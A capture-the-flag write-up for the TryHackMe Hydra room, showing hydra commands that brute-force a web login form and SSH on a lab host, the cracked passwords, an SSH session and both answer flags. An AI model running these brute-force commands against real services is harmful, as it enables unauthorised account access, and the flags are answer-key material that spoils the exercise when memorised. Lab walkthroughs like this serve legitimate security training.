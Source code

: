 # TryHackMe [Hydra](https://www.tryhackme.com/room/hydra)
### References
* DarkSec. (2020). TryHackMe Hydra Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/8fs_7bm88GY

## Use Hydra to brute force Molly's web password. What is flag 1?
* Brute force Molly's password with `hydra`:
```bash
$ hydra -l molly -P rockyou.txt 10.10.66.163 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
[80][http-post-form] host: 10.10.66.163   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
```
* Login to the webpage with the credentials and obtain the flag:
```html
<div class="jumbotron text-center">
	<h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
</div>
```

**Flag 1**: `THM{2673a7dd116de68e85c48ec0b1f2612e}`
## Use Hydra to brute force Molly's SSH password. What is flag 2?
* Use Hydra's SSH along with the `rockyou.txt` password list to brute force Molly's server password:
```bash
$ hydra -l molly -P rockyou.txt 10.10.66.163 ssh
[22][ssh] host: 10.10.66.163   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
```
* Log-in to Molly's server using her SSH credentials:
```
$  ssh molly@10.10.66.163
molly@10.10.66.163's password: butterfly
molly@ip-10-10-66-163:~$ ls
flag2.txt
molly@ip-10-10-66-163:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```

**Flag 2**: `THM{c8eeb0468febbadea859baeb33b2541b}`